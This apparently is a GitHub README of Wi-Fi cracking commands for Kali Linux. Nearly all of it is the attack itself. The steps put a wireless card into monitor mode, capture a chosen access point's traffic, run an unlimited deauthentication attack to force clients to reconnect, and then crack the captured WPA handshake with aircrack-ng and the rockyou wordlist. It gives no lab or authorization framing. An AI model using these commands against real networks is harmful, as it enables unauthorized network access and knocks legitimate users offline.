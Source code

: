 # wifi-hacking-procedure-and-commands


Commands for wifi Hacking:
================
! See version of Kali
#cat /etc/os-release
#uname -a

! See interfaces
#ip addr
#iwconfig

!kill processes
#sudo airmon-ng check kill

!Start monitor mode
#sudo airmon-ng start wlan0

!Verify that monitor mode is used
#sudo airmon-ng 

!You could also use iwconfig to check that interface is in monitor mode:
#iwconfig

! Get the AP's MAC address and channel
#sudo airodump-ng wlan0mon

! AP-MAC & channel - you need to select your own here:
#ESSID: 90:9A:4A:B8:F3:FB
#Channel used by AP for SSID: 2

!1st Window:
!Make sure you replace the channel number and bssid with your own
!Replace hack1 with your file name like capture1 or something 
#sudo airodump-ng -w hack1 -c 2 --bssid 90:9A:4A:B8:F3:FB wlan0mon

!2nd Window - deauth attack
!Make sure you replace the bssid with your own
#sudo aireplay-ng --deauth 0 -a 90:9A:4A:B8:F3:FB wlan0mon

!Use Wireshark to open hack file
#wireshark hack1-01.cap
!Filter Wireshark messages for EAPOL
::: eapol

!Stop monitor mode
#airmon-ng stop wlan0mon

!Crack file with Rock you or another wordlist
!Make sure you have rockyou in text format (unzip file on Kali)
!Replace hack1-01.cap with your file name
#aircrack-ng hack1-01.cap -w /usr/share/wordlists/rockyou.txt 

